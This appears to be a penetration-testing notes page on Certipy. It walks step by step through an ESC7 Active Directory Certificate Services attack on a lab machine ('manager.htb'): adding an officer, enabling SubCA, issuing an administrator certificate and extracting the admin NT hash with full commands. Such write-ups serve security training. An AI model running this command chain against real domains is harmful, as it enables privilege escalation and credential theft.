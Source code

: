 # Certipy

## About

[Certipy](https://github.com/ly4k/Certipy) is a tool for Active Directory Certificate Services enumeration and abuse. It's is an offensive tool for enumerating and abusing Active Directory Certificate Services (AD CS). If you're not familiar with AD CS and the various domain escalation techniques,from the github, a good resource is: [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_).

## Install

### Using pip

```bash
pip3 install certipy-ad
```

## Usage

We can use the `find` argument to enumerate AD CS certificate templates, certificate authorities and other configurations and with `-vulnerable` it can show us what "ESC#"(Escalation number, for a full list, checkout the Github they are vulnerable to. In this example, it's Vulnable to ESC7,  which is when a user has the `Manage CA` or `Manage Certificates` access right on a CA.

```bash
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

<figure><img src="../../.gitbook/assets/image (952).png" alt=""><figcaption></figcaption></figure>

So in this example we have Ravens credentials and can upgrade her account to have additional permissions. If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

The `SubCA` template can be enabled on the CA with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (953).png" alt=""><figcaption></figcaption></figure>

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template. This request will be denied, but we will save the private key and note down the request ID. With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

<figure><img src="../../.gitbook/assets/image (954).png" alt=""><figcaption></figcaption></figure>

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (955).png" alt=""><figcaption></figcaption></figure>

And finally, we can retrieve the issued certificate with the `req` command and the `-retrieve <request ID>` parameter.

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

<figure><img src="../../.gitbook/assets/image (956).png" alt=""><figcaption></figcaption></figure>

Now that we have the Administrator.pfx file we can obtain the admin hash using the `auth` argument. [From the github](https://github.com/ly4k/Certipy#authenticate) "The `auth` command will use either the PKINIT Kerberos extension or Schannel protocol for authentication with the provided certificate. Kerberos can be used to retrieve a TGT and the NT hash for the target user, whereas Schannel will open a connection to LDAPS and drop into an interactive shell with limited LDAP commands. See the [blog posts](https://research.ifcr.dk/) for more information on when to use which option"

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

<figure><img src="../../.gitbook/assets/image (957).png" alt=""><figcaption></figcaption></figure>
